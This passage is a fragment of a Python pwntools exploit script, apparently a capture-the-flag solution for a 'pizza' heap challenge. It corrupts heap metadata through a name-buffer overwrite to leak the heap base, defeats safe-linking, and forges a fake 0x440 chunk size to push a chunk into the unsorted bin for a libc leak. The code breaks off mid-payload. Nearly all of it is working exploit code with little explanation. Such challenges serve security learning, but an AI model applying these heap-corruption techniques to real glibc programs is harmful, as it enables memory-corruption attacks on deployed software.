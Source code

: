 ```python

    modify_pizza(
        0, modify_payload, b"B" * 0xF
    )  # Overwrite last byte of name_buf to point to a freed chunk to leak the heap
    free_pizza(0)  # free the chunk in question

    heap_base = u64(get_leak().ljust(8, b"\x00")) << 12
    log.warn(f"heap base @ {hex(heap_base)}")

    modify_payload = (
        b"A" * 40  # name
        + p64(0x21)  # desc size
        + b"B" * 24  # desc
        + p64(0x31)  # pizza chk size
        + p32(0)  # price
        + p16(1)  # id
        + p8(0)  # is_ready
        + p8(0x2)  # type
        + p64(0xFF)  # name_len
        + p64(heap_base + 0x350)
    )[:-1]

    log.info("faking chunk size to leak libc...")

    add_pizza(
        0, 0x20, b"A" * 0x1F, (len(modify_payload) + 1) << 8 | 0x02, 0x10, b"B" * 0xF
    )
    modify_pizza(0, modify_payload, b"B" * 0xF)  # Fix pizza 1 to free it properly
    free_pizza(0)

    add_pizza(0, 0xFF, b"A" * 0xFE, 0xFF << 8 | 0x02, 0xFF, b"B" * 0xFE)
    add_pizza(2, 0xFF, b"E" * 0xFE, 0xFF << 8 | 0x02, 0xFF, b"F" * 0xFE)

    # fake size = 0x440

    free_pizza(1)

    modify_payload = (
        b"C" * 24
        + p64(0x21)  # name
        + p64((heap_base >> 12) ^ (heap_base + 0x300))  # free chunk size
        + p64(0)  # right fd ptr to avoid breaking the tcache
        + p64(0)  # key technically but we don't care
        + p64(0x441)  # pad (prev_size)  # corrupted size
    )[:-1]

    add_pizza(
        1, 0x10, b"C" * 0xF, (len(modify_payload) + 1) << 8 | 0x02, 0x30, b"D" * 0x2F
    )  # Avoid consolidation of the big chunks
    modify_pizza(
        1, modify_payload, b"D" * 0x2F
    )  # Overwrite 0x110 chunk's size to be 0x440

    log.info("freeing fake chunk...")

    free_pizza(0)  # Free corrupted chunk (0x440) and make it end into an unsorted bin
    # unsorted chunk @ heap_base + 0x390
    free_pizza(2)  # not like we care

    modify_payload = (
        b"A" * 40
        + p64(0x31)  # name
        + p32(0)  # pizza chk size
```